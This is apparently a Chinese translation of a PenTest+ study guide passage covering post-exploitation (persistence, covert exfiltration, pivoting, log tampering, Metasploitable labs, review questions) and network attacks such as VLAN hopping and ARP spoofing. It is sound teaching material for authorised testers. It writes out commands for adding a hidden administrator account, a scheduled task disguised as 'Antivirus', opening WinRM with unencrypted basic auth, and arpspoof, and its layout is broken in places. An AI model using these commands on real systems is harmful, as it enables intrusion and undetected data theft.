除了漏洞利用的目标外，用于权限提升的漏洞利用方法也是区分提升漏洞利用的有用依据。常见的漏洞利用目标包括：

*   内核漏洞利用，是垂直提升中最常用的本地漏洞利用方法之一。许多需要本地账户，因此不太可能立即由可能专注于修补远程漏洞和其他关键漏洞的防御者进行修补。

*   应用程序和服务漏洞利用可能针对服务运行的账户，也可能针对应用程序或服务本身中的业务逻辑或控制。

*   数据库权限提升攻击可能利用 SQL 注入或其他数据库软件缺陷来使用提升的权限或从数据库查询数据。

*   设计和配置问题也可能允许权限提升，因此验证应用于账户的控制以及账户是否拥有不应拥有的权限或特权，值得渗透测试人员花时间。

### 社会工程学

技术漏洞利用方法可能非常有效，但人类仍然是任何环境中最脆弱的部分。这意味着渗透测试人员需要准备好在测试计划中包含社会工程学，如果它被交互规则允许并包含在工作范围内。利用人类弱点的基于欺骗的技术可以提供绕过技术安全层的访问权限，这些技术安全层否则无法克服。

针对组织的社会工程学攻击可能采取多种形式：

*   针对凭据或访问权限的电话、电子邮件、社交媒体和短信钓鱼

*   现场攻击，如冒充供应商、员工或其他受信任的个人或组织

*   通过垃圾箱搜集获取信息

*   分发包含特洛伊木马或其他攻击软件的 USB 拇指驱动器或其他设备


社会工程学技术可以显著改善渗透测试报告中与人员相关的信息，渗透测试人员需要了解测试带来的潜在优势。社会工程学测试可以提供员工行为、政策合规性与执行情况以及安全意识方面的信息，除此之外，它还可能通过组织的安全边界提供信息和访问权限。此类测试也可能非常难以做好，并且需要超越技术渗透测试能力的独立技能集。

## Escaping and Upgrading Limited Shells

对于后期利用工作，你需要了解的最后一种技术是处理受限或限制性 shell。受限 shell 试图防止被指派使用它们的用户访问可能允许利用或滥用系统的命令，它们通常用于对外部或不需要的访问存在担忧的系统上。

`Upgrading a restrictive shell` 需要利用受限 shell 环境中的潜在弱点。要实现这一点，你需要评估常见命令（如 `ls`、`echo` 和 `cd`）以及 Perl 和 Python 等编程语言的可用性，以及哪些命令是 `setuid` 命令或可以使用 `sudo` 作为 root 运行。

你可以阅读关于 shell 升级技术的简要指南，网址为 [`www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf`](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)。

## Persistence and Evasion

能够攻破主机很重要，但能够保留对系统的访问权限以继续收集数据并进行进一步攻击，对于大多数渗透攻击来说更为关键。这意味着持久性是渗透测试人员工作的关键部分。

### Scheduled Jobs and Scheduled Tasks

保持对系统访问权限的最简单方法之一是使用本章前面回顾过的技术，通过计划作业或计划任务来实现。计划操作的一个优势是，它可以允许向远程系统进行定期回调，而不需要运行可检测的服务。这也是许多僵尸网络依赖于向远程 Web 服务器进行受 SSL 保护的出站呼叫以进行命令和控制的同一原因。为远程连接使用安全协议，并确保受攻破主机连接的系统或系统不易与渗透测试人员的活动相关联，可以帮助隐藏攻破行为。

### Inetd Modification

Inetd 超级守护进程及其同类（`Xinetd`、`Rlinetd`）在 Linux 系统上运行各种服务。向 Inetd 添加其他服务可以允许你通过你控制的服务保持持久连接，而微妙的 Inetd 更改（例如更改提供服务的二进制文件）可能会被防御人员忽略。

### Daemons and Services

安装伪造服务或使用 `Meterpreter` 等工具将恶意代码插入内存中的现有服务，可以允许对系统进行持续访问。安装守护进程或服务将提供比注入内存的代码更长的访问时间，后者无法在重启后存活，但注入的代码通常更难被检测到。

### Backdoors and Trojans

后门和木马也可用于提供持久性。尽管专门构建的后门可以是强大的工具，但它们也更可能被反恶意软件工具检测到。创建后门的替代方法是用易受攻击的版本替换现有服务。一旦易受攻击的版本到位，你就可以简单地利用它，通常系统所有者不会注意到可执行文件或版本的变化。

PenTest+ 考试大纲特别提到了绑定 shell 和反向 shell，你需要知道它们是什么、它们有何不同，以及在何时以及为何可能选择每一种。

`bind shell` 在远程系统上运行并在特定端口上设置监听器，允许远程访问。然后你通过 `SSH` 或 `Netcat` 等控制台工具连接到 shell 并在远程系统上执行命令。由于这需要入站连接，因此通常更可能被 `IDS` 或 `IPS` 检测为异常活动，并可能被禁止向系统发送入站连接的防火墙阻止。

`reverse shell` 从远程系统连接回你选择的系统。当防火墙禁止你向目标系统发送流量但允许内部发起的出站流量时，这是常见选项。

攻击者可以使用的最后一种方法是直接修改 Web 应用程序、脚本和其他工具的代码，只要代码在系统上可访问即可。从 Web 应用程序中删除输入验证、添加易受攻击的代码或远程访问工具，或进行类似更改，可以为渗透测试人员提供持续访问或替代访问方法。

### Data Exfiltration and Covert Channels

在渗透测试期间获得数据访问权限后，下一步通常是想办法将数据从已攻破的系统或网络中取出。该过程称为 `data exfiltration`。数据外泄可以简单到将数据发送回你控制的系统，但在防御严密或具有挑战性的网络中，也可能是一项复杂的活动。防御人员可能会使用各种技术监视数据外泄，包括查找特定内容、意外或不寻常的流量或流量模式，以及各种其他方法。这意味着，作为渗透测试人员，你需要仔细考虑如何在不被检测到的情况下将数据取出。

常见的数据外泄技术包括 `covert channels`（允许违反政策传输数据的通道），例如将数据隐藏在加密的 Web 流量中，发送到看似无害或常用的网站，如 `Google`、`GitHub`，甚至 `YouTube`、`Facebook` 或 `Instagram`，其中可能会使用 `steganography` 技术将数据隐藏在图像或视频中；通过电子邮件发送数据；或滥用 `DNS` 等协议。你可以在 [`www.pentestpartners.com/security-blog/data-exfiltration-techniques`](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques) 找到一个有用的列表，帮助你思考数据外泄的可能性。

在考虑数据外泄技术时，你应该思考防御人员可能如何查找可能离开组织的数据。如果使用安全协议、数据加密或编码（可以使用 `PowerShell` 等本机工具轻松完成）的技术，使得难以确定离开的数据属于组织或是敏感数据，如果传输方式看起来无害，以及流量的去向不明，那么在不被检测到的情况下外泄数据最有可能成功。因此，通过 `HTTPS` 向 `GitHub` 或 `Facebook` 等网站传输较小的编码数据，比通过 `SSH` 向未知主机传输大量数据更不容易被注意到。

### New Users

创建新用户帐户是保留对系统访问权限的经过验证的方法。在管理和监控良好的环境中，添加帐户可能会被发现并触发警报，但在许多环境中，在系统上创建本地用户帐户可能允许持续访问系统、设备或应用程序。


Metasploit 的 Meterpreter 使得在受攻破的 Windows 系统上（如果你拥有具有管理员权限的账户）变得非常简单。只需执行 `net user [newusername] [password] /add` 和 `net localgroup administrators [newusername] /add` 即可创建用户账户。Metasploit 还包含旨在向 Linux 添加 UID 0 用户（root 级别访问权限）的有效载荷，但一旦你拥有特权账户或 `sudo` 权限，从命令行执行此类操作也同样简单。隐藏新用户的创建可能很困难，但仔细选择新用户账户的名称，使其与现有或常见服务或其他具有本地账户的用户的名称相匹配，可以帮助隐藏账户的使用以及账户采取的任何操作。

## Pivoting

一旦你通过攻破系统并确保持续访问权限而获得立足点，就可以利用该系统来获取对目标网络或系统的新视角。使用受攻破的系统可以提供进入网络的新路径，或帮助你识别从原始扫描视角不可见的新目标。

Figure 6.15 显示攻击者在攻破 Internet 可访问 DMZ 内的易受攻击系统后进行横向移动。攻击者可能发现了易受攻击的 Web 服务或另一个面向前端的可利用漏洞。一旦他们攻破了 DMZ 中的服务器，就可以扫描那些之前通过示例组织部署的多层防火墙不可见的系统。请注意，在这种情况下，额外的 DMZ 服务器和内部工作站都可以访问。本书前几章讨论的相同技术随后将被用于进行信息收集和利用前活动。


FIGURE 6.15 Pivoting

横向移动也可以在单个系统上发生，当攻击者从一个账户或服务转移到另一个账户或服务时。这种方法或视角的改变是渗透测试人员流程中的关键部分，因为很少有组织将其所有服务和系统都暴露给外部世界或攻击者可以访问的单一位置。了解组织的网络和系统设计，包括内部和外部防御及服务，可以实现更有效的横向移动。

## Covering Your Tracks

利用后的一项重要任务是清理利用过程可能在目标机器上留下的工具、日志和其他痕迹。这可能非常简单，也可能相当复杂，具体取决于所使用的技术、目标系统的配置和功能以及完成攻击所需的工具。

在掩盖痕迹时，你首先应考虑的步骤之一是如何使你将用于长期访问的工具、守护进程或木马看起来无害。Meterpreter 等工具通过将自身插入现有进程、使用与常见无害进程相似的名称，或以其他方式努力与系统上常见的正常行为和文件融合来实现这一点。

隐藏攻破系统并保留访问权限所需的所有工具可能很困难，甚至不可能。在你的工具可能被发现的情况下，加密和编码工具（如 packers、改变代码以使其不易被检测为与同一攻击工具的其他版本相同的多态工具）以及类似技术可以帮助减缓防御者。高级持续性威胁和主要恶意软件包用于避免检测和防止分析的相同技术对渗透测试人员也很有用，因为他们的目标相似。

除了隐藏保留访问权限所需的工具和其他工件外，清理也很重要。渗透测试人员需要知道其攻击和操作创建的文件位于何处，并应确保这些文件已被删除。你还需要跟踪可能包含你操作证据的日志文件。虽然擦除日志文件可能很诱人，但在大多数情况下，空日志文件比修改过的日志文件更可疑。如果目标组织使用远程日志设施，你可能无法有效删除所有基于日志的证据，本地日志和远程日志之间的差异如果目标组织的工作人员注意到变化，可能会指示系统被攻破。这意味着大多数从业者首先选择修改日志或在可能的情况下清理日志，然后仅在没有其他选择时才使用日志擦除。

隐藏目标系统与渗透测试人员工作站之间，或多个受攻破系统之间的通信，也是掩盖痕迹的关键部分。高级恶意软件使用的相同技术在这里也很有用。加密通信、使用常见协议以及确保出站通信前往其他无害主机的组合可以帮助防止检测。在执行一系列端口和漏洞扫描后，从渗透测试人员工作站直接进入的 RDP 会话，比合格的安全团队更有可能被检测到！

# Summary

一旦渗透测试人员收集了目标的漏洞信息，下一步就是将这些漏洞映射到潜在的利用程序。漏洞和利用数据库都允许渗透测试人员将他们发现的漏洞与利用程序匹配，而 Metasploit 等工具为预构建的利用包提供评级，允许测试人员选择最有可能成功的利用程序。

创建和维护立足点需要后门或木马等工具，这些工具可以提供 shell 甚至图形远程访问。渗透测试人员通常利用绑定 shell（在选定端口上打开监听器）或反向 shell（连接到渗透测试人员控制的系统）。他们也可以选择利用守护进程和计划任务，以确保即使 shell 被终止，新 shell 或其他后门也会在已知时间或系统重启时重新启动。

一旦你成功攻破了一个或多个系统并在组织内部获得立足点，利用后活动就开始了。第一步是尝试横向和垂直移动到仅可从组织内部访问的其他系统和设备。渗透测试人员还应考虑从新的视角进行额外的信息收集和漏洞评估，因为大多数系统和网络更关注外部攻击者，而不是安全边界内部的攻击者，这是由于内部用户需要执行他们的工作。渗透测试人员在探索已获得访问权限的环境时，还可能需要处理测试网络分段或升级受限 shell 等任务。

在这些过程中避免被检测到很重要，以便你能继续访问已攻破的系统。PenTest+ 考试侧重于注入到已运行进程而不是在目标系统上留下工件的无文件恶意软件。一旦进入，离地作战是通过使用内置工具和工具包（如 PsExec、WMI 和 PowerShell 以及许多常见的 Linux 实用程序）来完成的。

一旦你获得了数据，就需要考虑数据外泄——如何在不被检测到的情况下将数据传回你控制的系统。这可能涉及使用隐写术将数据嵌入到其他无害的图像、视频或音频中，或者涉及编码、加密以及使用隐蔽通道来隐藏出站数据。你必须考虑数据的数量和类型，以及防御者可能部署的潜在防御和检测机制，这些机制可能会检测并阻止你的数据外泄努力。


# 后渗透活动

后渗透活动还包括清理、隐藏以及为更长时间的渗透测试活动保留访问权限。你应该确保你知道如何通过清理日志文件、删除工具创建的文件以及确保其他痕迹不易被防御者发现来隐藏你行为的证据。加密、安全通信和构建脚本回调等技术对于隐藏和保留长期访问权限都非常重要。

## 考试要点

## 了解后渗透工具和技术

渗透测试人员需要知道如何使用 Empire、Mimikatz 和 BloodHound 等工具来继续其攻击。这些工具可以允许向具有类似特权级别和访问权限的其他账户和系统进行横向移动，包括使用传递哈希技术。它们还可以通过获得对类似账户的访问权限来帮助水平提权，或通过垂直提权到更强大的账户（如管理员账户）。

## 解释枚举技术

枚举新目标是已获得目标访问权限的渗透测试人员的一项重要任务。PenTest+ 考试大纲中包含的常见枚举目标包括用户、组、林、敏感数据和未加密数据。渗透测试人员需要知道如何枚举这些目标的基础知识，以及每个目标为何重要。

## 解释如何创立立足点并保持持久性

一旦你获得对系统的访问权限，就需要创建并保持立足点。这意味着使用可以提供远程访问的工具，例如提供远程 shell 访问的木马和后门。其他技术，例如在系统启动时自动运行的守护进程以及按计划重新放置远程访问的计划任务，也是渗透测试人员需要了解的。了解每种技术适合何种任务以及各自的优点和局限性，对于备考很重要。

## 演示如何避免检测

避免检测的技术包括使用无文件恶意软件，这类软件不会在远程系统上留下文件或痕迹，而是将自身注入到运行中的进程中。一旦你获得对系统的访问权限，下一步就是“活用本地资源”，即使用目标系统上可用的内置工具，而不是自带工具。一旦获得访问权限，渗透测试人员需要考虑数据外泄的方法和工具，包括隐写术和隐蔽通道等技术在不同场景下的适用性。最后，清除痕迹涉及清理工具和数据，并确保防御者更难检测或逆向工程攻击。

## 了解常见渗透测试工具在测试中的使用方式

渗透测试人员需要熟悉广泛的工具。PenTest+ 考试大纲特别提到了 SearchSploit、PowerSploit、Responder、Impacket 工具套件、Empire、Metasploit、mitm6、CrackMapExec、TruffleHog 和 Censys 作为你在考试中应了解的工具示例。

## 实验练习

## 活动 6.1：利用

在此活动中，你将利用 Metasploitable 3 系统。

为了运行此实验，你必须先构建 Windows 2008 Metasploitable 3 虚拟机。相关说明可在 `https://github.com/rapid7/metasploitable3` 找到。如果你无法成功完成此操作，可以使用 Metasploitable 2 进行类似活动。

1. 使用 OpenVAS（或你偏好的其他漏洞扫描器）扫描 Metasploitable 3 系统。

2. 审查每个高危或严重漏洞，以寻找潜在的利用候选项。记下哪些可能是利用候选项，并根据漏洞扫描器中提供的 CVE、BID 或其他链接进行审查。根据这些信息，记下哪些漏洞有可用的利用程序。

3. 通过 Rapid7 漏洞数据库 `https://www.rapid7.com/db/modules` 搜索利用程序。识别与你在步骤 1 和 2 中发现的漏洞匹配的 Metasploit 模块。

4. 使用 Metasploit 利用一个或多个漏洞。务必通过检查本地目录、执行命令或其他方式验证对远程系统的访问，以确保你在 Windows 2008 系统上拥有有效的 shell。

5. 记录你用于完成利用的方法，包括利用程序的详细信息、远程主机、有效载荷以及重复利用所需的任何其他信息。

## 活动 6.2：发现

在此部分的实验中，你将使用被攻破的远程机器来识别其他目标。

1. 克隆你的 Windows 2008 Metasploitable 系统或加载 Metasploitable 2 虚拟机的副本，并启动它。确保系统能够启动并拥有唯一的 IP 地址，方法是登录到它并验证其 IP 地址。

2. 使用活动 6.1 中被攻破的 Windows 2008 虚拟机，确定如何对新实例进行端口扫描。

   1. 在 Windows 2008 中可以使用哪些内置工具或应用程序？

   2. 使用此选项会遇到哪些限制？

   3. 哪些 PowerSploit 模块对此练习有用？

   4. 使用你识别的 PowerSploit 模块对新系统进行端口扫描并记录结果。

3. 从你的 Kali 系统运行 Nmap 扫描，并将结果与你在问题 2 部分 d 中获得的结果进行比较。有哪些可见的差异？

## 活动 6.3：横向移动

在此练习中，你将横向移动到第二个系统。此练习最好与一位合作伙伴一起进行，合作伙伴可以帮助修改你的目标系统，在横向移动过程中向你提出挑战。

1. 与之前的练习一样设置你的实验环境，包括一台 Kali 渗透测试机和一台 Metasploitable 目标，然后设置第二台 Metasploitable 目标机器。你可能希望使用 Metasploitable 2 而不是 3，或者设置一台 Metasploitable 3 Windows 主机和一台 Metasploitable 3 Linux 主机。

2. 如果你与合作伙伴一起工作，让他们使用你不知道的 IP 地址配置其中一个系统，并让他们配置防火墙，仅允许来自另一台 Metasploitable 系统的访问。他们还可以选择禁用 Metasploitable 系统提供的一些或许多服务，或允许防火墙在一台或两台系统上阻止对这些服务的访问，但他们应为每个系统保留至少一个可利用的服务！

3. 环境准备就绪后，对初始 Metasploitable 系统进行扫描和漏洞评估。确保你无法访问第二个系统，并且无法从 Kali Linux 系统确定其 IP 地址或主机名。

4. 使用扫描数据确定你的利用方法，并使用 Metasploit 攻破你的目标。

5. 一旦你攻破了第一个目标，仅使用该系统上可访问的工具来查找第二个系统。这可能要求你使用 ping 或其他内置命令等工具手动扫描第二个系统。

6. 一旦你识别出第二个系统，确定如何对其进行漏洞扫描并攻破它。请记住，可以在系统之间创建转发流量的隧道，Meterpreter 或 Metasploit 有效载荷等工具可以包含有用的实用程序，并且你可能希望利用你对系统的访问权限下载 Netcat 等工具。

7. 当你攻破第二个系统时，此实验即告完成。感谢你的合作伙伴！

## 复习题

答案可在附录中找到。

1. Alice 发现她的漏洞扫描器将一个评级列为 10 分中的 9.3 分，位于其严重性量表上。识别出的服务运行在 TCP 445 端口。Alice 最可能对该服务使用哪种类型的利用程序？


# 第 7 章 利用网络漏洞

1. SQL 注入

2. SMB 漏洞利用

3. CGI 漏洞利用

4. MIB 漏洞利用

5. 使用以下场景回答第 2 至第 4 题。

6. Charles 最近对一个系统完成了漏洞扫描，需要从以下列表中选择最佳漏洞进行利用：

   

2. 如果 Charles 想要获得系统访问权限，他应该优先处理列表中的哪个条目？

   1. Ruby on Rails 漏洞

   2. OpenSSH 漏洞

   3. MySQL 漏洞

   4. 以上都不是；他应该寻找另一个目标

3. 如果 Charles 想要构建一份额外系统用户账户列表，哪个漏洞最有可能提供该信息？

   1. Ruby on Rails 漏洞

   2. OpenSSH 漏洞

   3. MySQL 漏洞

   4. OpenSSH 和 MySQL 漏洞均可

4. 如果 Charles 选择 Ruby on Rails 漏洞，以下哪种方法不能用于搜索现有的 Metasploit 漏洞？

   1. CVE

   2. BID

   3. MSF

   4. EDB

5. Matt 想要从 Linux 主机横向移动到网络中的其他主机，但无法安装典型 Linux 服务器之外的其他工具。如果远程主机防火墙阻止入站连接，并且受到保护，无法直接从他的渗透测试工作站访问，他如何利用当前所在的系统来允许对这些远程主机进行漏洞扫描？

   1. SSH 隧道

   2. Netcat 端口转发

   3. 启用 IPv6

   4. 修改浏览器插件

6. 在获得对 Windows 系统的访问权限后，Fred 使用了以下命令：

   ```
   SchTasks /create /SC Weekly /TN "Antivirus" /TR "C:\Users\SSmith\av.exe" /ST 09:00
   ```

   他完成了什么？

   1. 他设置了每周的杀毒扫描。

   2. 他设置了一个名为“weekly”的作业。

   3. 他安排了自己的可执行文件每周运行。

   4. 什么都没有；此命令仅在 Linux 上运行。

7. 在通过易受攻击的服务获得对 Linux 系统的访问权限后，Cassandra 想要列出系统上的所有用户账户及其主目录。以下哪个位置将提供此列表？

   1. `/etc/shadow`

   2. `/etc/passwd`

   3. `/var/usr`

   4. `/home`

8. 在使用 Metasploit Meterpreter 有效载荷利用目标几天后，Robert 失去了对远程主机的访问权限。漏洞扫描显示，他最初用于利用该系统的漏洞仍然存在。最可能发生了什么？

   1. 恶意软件扫描发现了 Meterpreter 并将其删除。

   2. 系统已打补丁。

   3. 系统已重启。

   4. Meterpreter 崩溃了。

9. Angela 想要从她在渗透测试中获得访问权限的 Windows 系统外泄数据。以下哪种外泄技术最不容易被检测到？

   1. 以明文形式通过出站 HTTP 发送到她控制的系统。

   2. 对数据进行哈希处理，然后通过出站 HTTPS 发送哈希值。

   3. 使用 PowerShell 对数据进行 base64 编码，然后发布到公共可通过 HTTPS 访问的代码仓库。

   4. 使用 PowerShell 对数据进行 base64 编码，然后使用 SSH 隧道将数据传输到她控制的系统。

10. Ian 的渗透测试交付规则规定，他不能在特定目标环境中添加工具到他攻破的系统。为了满足此要求，他将不得不使用哪些技术？

    1. 使用无文件恶意软件包进行攻破，然后掩盖痕迹并清理他使用的任何文件。

    2. 使用来自 Metasploit 的已知漏洞和投放器进行攻破，然后使用“活着离地”技术。

    3. 使用无文件恶意软件包进行攻破，然后使用“活着离地”技术。

    4. 使用来自 Metasploit 的已知漏洞和投放器进行攻破，然后清理投放的文件，并仅使用系统实用程序进行进一步工作。

11. Tina 已经获得了一份有效用户账户列表，但没有他们的密码。如果她没有发现任何漏洞，但相信她针对的组织密码习惯较差，她可以使用哪种攻击来尝试获得对这些用户名可能有效的目标系统的访问权限？

    1. 彩虹表

    2. 字典攻击

    3. 同义词攻击

    4. Meterpreter

12. 哪个内置的 Windows 服务器管理工具可以允许从其他系统进行命令行 PowerShell 访问？

    1. VNC

    2. PowerSSHell

    3. PSRemote

    4. RDP

13. John 想要保留对 Linux 系统的访问权限。以下哪项不是在 Linux 服务器上保持持久性的常见方法？

    1. 计划任务

    2. Cron 作业

    3. 木马服务

    4. 修改的守护进程

14. Tim 已经选择了他的 Metasploit 漏洞利用，并将有效载荷设置为 `cmd/unix/generic`。在尝试漏洞利用后，他收到了以下输出。哪里出了问题？

    

    1. 远程主机受防火墙保护。

    2. 远程主机不在线。

    3. 主机不可路由。

    4. 未设置远程主机。

15. Cameron 在他攻破的 Windows 系统上通过管理 shell 运行了以下命令。他完成了什么？

    ```
    $command = 'cmd /c powershell.exe -c Set-WSManQuickConfig
    -Force;Set-Item WSMan:\localhost\Service\Auth\Basic -Value $True;Set-Item WSMan:\localhost\Service\AllowUnencrypted
    -Value $True;Register-PSSessionConfiguration -Name Microsoft.PowerShell -Force'
    ```

    1. 他已为本地用户启用了 PowerShell。

    2. 他已设置 PSRemoting。

    3. 他已禁用远程命令行访问。

    4. 他已设置 WSMan。

16. Mike 在准备渗透测试的利用阶段时发现了许多信息泄露漏洞。如果他无法识别出漏洞详情之外的用户或服务信息，他应该给利用这些漏洞什么优先级？

    1. 高优先级；尽早利用。

    2. 中优先级；在尝试其他系统和服务漏洞利用后利用。

    3. 低优先级；仅在时间允许时利用。

    4. 不要利用；信息泄露漏洞利用不值得进行。

17. Annie 正在使用一组泄露的密码尝试登录她正在进行渗透测试的公司员工的多个用户账户。她使用的工具尝试使用单个密码登录每个账户，然后转到下一个密码，记录失败和成功。Annie 正在进行哪种类型的攻击？

    1. 火管攻击

    2. 密码喷洒

    3. 传递哈希

    4. 克隆密码攻击

18. Jacob 想要在 Windows 网络上捕获用户哈希。他可以选择哪个工具从广播消息中收集这些哈希？

    1. Metasploit

    2. Responder

    3. Impacket

    4. Wireshark

19. Madhuri 被要求作为她的渗透测试工作的一部分运行 BloodHound。她能用这个工具做什么？

    1. 可视化 Active Directory 环境。

    2. 捕获加密的网络流量。

    3. 可视化网络流量流。

    4. 在网络共享驱动器中查找加密文件。

20. Ben 正在作为 PCI DSS 合约的一部分进行渗透测试。作为网络分段测试的一部分，他最可能使用哪种技术？

    1. 测试 Internet 连接上的 802.1q 中继

    2. 测试网络的物理分段

    3. 段之间的防火墙规则验证

    4. 段之间的反恶意软件规则验证

WileyPRE


网络攻击形式多样。有些攻击专注于协议漏洞，或利用特定配置。另一些攻击则试图获取网络访问权限，或说服目标系统认为它们是合法服务器，或是发送流量的正确网络路径，从而允许中间人攻击。

在本章中，我们将探讨其中许多漏洞，以及可用于利用这些漏洞的工具和技术。在此过程中，我们将深入探讨 Microsoft Windows 网络漏洞；针对常见网络服务（如 SMTP、FTP 和 DNS）的攻击；以及有线和无线网络攻击。

我们的场景在本章中继续进行，涉及一次现场渗透测试，重点在于获取网络访问权限，然后利用该权限渗透外部无法访问的网络安全边界内的系统。你将学习如何设置虚假无线接入点，以及如何收集有关无线和有线客户端及流量的信息，以帮助你获取目标访问权限。一旦获得网络访问权限，你将努力获取进一步的访问权限，包括通过服务漏洞暴露的凭据和数据。

## 识别漏洞利用

一旦你确定了想要攻击的网络，首先需要掌握的事情之一就是一个可供利用的漏洞。PenTest+ 考试大纲包括两个特定网站，通常可以在那里找到此类信息以及漏洞利用代码本身：

*   `Exploit DB`，提供一个可搜索的漏洞数据库，按类型、平台和 CVE 信息排序。你可以在 `https://www.exploit-db.com` 找到它。

*   `Packet Storm`，位于 `https://packetstormsecurity.com`，包含新闻以及漏洞信息和代码。

这些并不是唯一的漏洞利用数据库。我们在 第 6 章，“利用和跳转”中介绍了其他数据库，但准备参加这部分 PenTest+ 考试时，你应该特别记住这两个。

## 进行网络漏洞利用

一旦你在目标位置获得了一个或多个系统的访问权限，或者如果你获得了物理或无线网络访问权限，你应该考虑如何利用网络本身。这可能涉及攻击网络协议和行为，进行中间人攻击以捕获你通常无法看到的流量，使用 `denial‐of‐service (DoS) attacks` 禁用服务或系统，或针对 NAC 或加密等安全控制进行攻击。

### VLAN 跳转

虚拟局域网（VLAN）出于安全或性能原因将广播域分成不同的部分。许多组织使用 VLAN 在不同系统或组织单元之间创建内部安全边界。这使得能够访问当前所在 VLAN 以外的 VLAN 成为渗透测试者的一个有吸引力的机会。

进行 VLAN 跳转攻击有两种常见方法：双标记和交换机欺骗。

双标记用于 802.1Q 中继接口。图 7.1 显示了 802.1ad 以太网帧的内部布局，允许将第二个 VLAN 标记插入数据包。这允许首先读取源 MAC 地址后紧跟的外部标记或服务提供商标记，然后再读取内部或客户标记。


FIGURE 7.1 Double‐tagged Ethernet packet

渗透测试者可以通过将本地 VLAN 的标记作为第一个标记，将目标 VLAN 的标记作为第二个标记来使用双标记进行 VLAN 跳转。这会导致数据包在其本地 VLAN 上被交换机转发，其旅程中的下一个交换机读取第二个标记。结果，数据包被发送到目标 VLAN，因为它看起来像是源自正确的源 VLAN。

双标记确实有一些关键缺陷，限制了其对渗透测试者的使用。首先，由于 VLAN 标记不会在响应中复制，源系统不会收到任何响应。其次，双标记只能在交换机配置为允许本地 VLAN 时使用，许多组织使用缓解技术来防止这种滥用。

交换机欺骗依赖于使攻击主机表现得像一个中继交换机。由于主机看起来像是一个允许中继的交换机，它可以查看发送到其他 VLAN 的流量。与双标记一样，这种技术要求本地网络设备配置为允许攻击主机协商中继（接口设置为动态可取、动态自动或中继模式），在配置良好且维护良好的网络中不应该是这种情况。如果你获得网络设备的控制权，或发现配置错误或维护和管理不善的网络，交换机欺骗可以提供对可能 otherwise 保持隐藏的 VLAN 的额外可见性。

像这样的攻击可以使用 Kali Linux 中的 `Yersinia` 工具执行。`Yersinia` 提供广泛的第 2 层攻击功能，包括生成树协议（STP）攻击、动态主机配置协议（DHCP）攻击、802.1Q 中继攻击以及许多其他功能。图 7.2 显示了 `Yersinia` 的攻击模块选择和界面。


FIGURE 7.2 Yersinia 802.1q attack selection

### DNS 缓存投毒

`DNS spoofing`，也称为 `DNS cache poisoning`，可以允许你将流量重定向到你控制的不同主机。如 图 7.3 所示，被投毒的 DNS 条目会将流量指向错误的 IP 地址，允许攻击者将流量重定向到他们选择的系统。大多数 DNS 缓存投毒依赖于 DNS 软件中的漏洞，但未正确保护或配置的 DNS 服务器可能允许攻击者在没有适当验证的情况下提供 DNS 信息。

最著名的 DNS 缓存投毒漏洞于 2008 年公布，现在很少发现易受攻击的 DNS 服务器。因此，依赖于非常狭窄且难以利用的时序攻击窗口的 DNS 投毒攻击是攻击者的主要选择。除非发现新的、广泛的 DNS 漏洞，否则 DNS 缓存投毒攻击不太可能对大多数渗透测试者有用。


FIGURE 7.3 DNS cache poisoning attack

渗透测试者可以利用相关技术，包括在受攻破系统上修改本地 hosts 文件，以将主机名解析为指定的 IP 地址。虽然这不会影响整个网络，但在单个系统级别上的效果与被投毒的 DNS 缓存相同。

渗透测试者的最后一个选择是修改网络的实际 DNS 服务器。如果你能控制组织的 DNS 服务器，或导致系统指向不同的 DNS 服务器，你可以任意选择 DNS 条目将你的受害者发送到哪里。

### 中间人攻击

渗透测试者通常希望捕获发送到或来自目标系统的流量。不幸的是，在没有控制路径上的网络设备的情况下，大多数情况下在现代交换网络中无法访问该流量。这意味着他们需要找到一种方法将自己插入到流量流的中间，无论是说服涉及的系统通过另一条路径发送流量，还是攻破目标流量路径上的网络设备。这种类型的攻击通常称为中间人攻击（但以前也被称为中间人攻击，因此你可能在 PenTest+ 考试环境之外遇到该术语）。

#### ARP 欺骗和投毒


# 地址解析协议（ARP）

地址解析协议（ARP）用于将 IP 地址映射到物理机器地址（MAC，或媒体访问控制地址）。由于系统依赖 ARP 来识别本地网络上的其他系统，因此伪造关于流量应发送到哪个地址的 ARP 查询响应，可能允许攻击者进行各种依赖于受害者将流量发送到错误系统的攻击，包括中间人攻击。

ARP 欺骗发生在攻击者在本地网络上发送伪造的 ARP 消息时，从而为被欺骗的系统或系统提供错误的 MAC 地址–IP 地址配对。这些信息被写入目标机器的 ARP 缓存中，然后攻击者可以拦截或捕获并转发流量。如果中间人数据包捕获不是你的目标，同样的技术可以用于劫持会话或导致额外流量击中目标系统，可能导致 DoS 状况。

在 图 7.4 中，攻击者已实施 ARP 欺骗攻击，导致机器 A 相信机器 M 应接收本应发给机器 B 的流量。机器 M 现在充当代理并检查机器 B 接收的所有流量，通常 A 或 B 都没有意识到流量没有按应有方式流动。

ARP 欺骗仅在本地网络上有效，这意味着你需要处于目标系统的广播域内才能成功伪造响应。


图 7.4 ARP 欺骗

在 Kali Linux 中使用 `arpspoof` 命令实施此攻击相对简单，其中 `eth0` 是我们的本地接口，目标通过 `‐t` 设置，路由器或其他上游设备使用 `‐r` 标志为主机设置：

```
arpspoof -i eth0 -t 10.0.2.7 -r 10.0.2.1
```

还可以设置反向欺骗以允许捕获响应，并且可以使用 Wireshark 等工具监控两台主机之间的流量。正如你所料，Metasploit 在其辅助模块（ `auxiliary/spoof/arp/arp_poisoning` ）中包含 `ARP 中毒` 工具。

## MAC 地址欺骗

设备使用其硬件或媒体访问控制（MAC）地址在网络上标识自身。从渗透测试人员的角度来看，能够使用另一台系统的 MAC 地址可能是一个强大的工具。你可以使用 MAC 地址欺骗来绕过依赖系统 MAC 地址来标识它的网络访问控制、受限门户和安全过滤器。你还可以将其作为中间人和其他攻击的一部分，这些攻击依赖于系统将流量发送到网卡实际上并不靠近的设备或系统！

用于执行其他中间人攻击的相同工具也可用于中继攻击，因为目标仅仅是捕获或呈现流量，而不是修改它。

## NAC 绕过

虽然许多网络攻击依赖中间人技术来访问流量，但访问网络本身也可能是必需的。许多组织网络现在要求身份验证和授权才能接入网络，NAC（网络访问控制）通常用于提供该安全层。

NAC 系统通过检测新设备何时连接到网络，然后要求它们获得授权才能访问网络来工作。其检测过程通常涉及以下方法之一：

*   连接时与 NAC 服务器通信的软件客户端

*   监听 DHCP 请求等流量的 DHCP 代理

*   查找 ARP 查询等广播流量的广播监听器，或查看其他 IP 数据包的更通用的嗅探器

